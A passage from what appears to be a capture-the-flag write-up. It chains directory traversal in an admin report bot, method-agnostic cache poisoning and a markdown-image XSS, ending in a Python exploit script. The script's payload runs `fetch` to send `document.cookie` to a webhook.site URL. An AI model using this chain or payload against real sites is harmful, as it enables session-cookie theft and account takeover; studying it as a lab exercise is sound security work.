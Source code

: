 ```js
await page.goto(`http://127.0.0.1:1337/report/${id}`, {
    waitUntil: 'networkidle2',
    timeout: 5000
});
```

Are you able to spot the issue? If you look closely, `${id}` is directly interpolated into the URL being requested. If there's no sanitization here, we can add `../../` and request **any** arbitrary endpoint! This means we simply have to cache poison the thread preview with our payload that exfiltrates the cookie, and simply direct the administrator to the thread preview endpoint where the cached XSS resides with an `id` like `../threads/preview`. The only issue is that the administrator is making a `GET` request here and not a `POST` request. We check the endpoint for `GET /threads/preview` and find the following:

```js
router.get('/threads/preview', AuthMiddleware, routeCache.cacheSeconds(30, cacheKey), async (req, res) => {
    return res.redirect('/threads/new');
});
```

The most important thing is that the response for the endpoint is cached, and with the cache key ignoring the HTTP method used, we can chain the vulnerabilities above (the XSS in the preview, caching the XSS, directing the administrator to the XSS with the directory traversal) and construct our payload as below and get the flag exfiltrated to our webhook endpoint!

```python
#!/usr/bin/env python3

import requests

URL = "http://138.68.150.148:31833/threads/preview"
URL2 = "http://138.68.150.148:31833/api/report"


trigger = {
    "post_id": "../threads/preview"
}

headers = {
    "Cookie": "session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MTAsInVzZXJuYW1lIjoid2FpdHVjayIsInJlcHV0YXRpb24iOjAsImNyZWRpdHMiOjEwMCwidXNlcl9yb2xlIjoiTmV3YmllIiwiYXZhdGFyIjoibmV3YmllLndlYnAiLCJqb2luZWQiOiIyMDIyLTA3LTE2IDA3OjExOjMzIiwiaWF0IjoxNjU3OTU1NDk5fQ.MRR-uEf71mD7RruLrdZ1ga5XAGbtEBCm_Li-wsirRwA",
    "X-Forwarded-For": "127.0.0.1",
    "Host": "127.0.0.1:1337"
}

body = {
    "title": "",
    "content": '''![Uh oh...](https://www.example.com/image.png"onerror="fetch('https://webhook.site/6f47c639-ce29-4635-bcc9-c33ebf316fba?'+document.cookie))'''
}

# cache poison with XSS
r = requests.post(URL, headers=headers, data=body)
print(r.text)

# trigger
r = requests.post(URL2, headers=headers, json=trigger)
print(r.text)
```
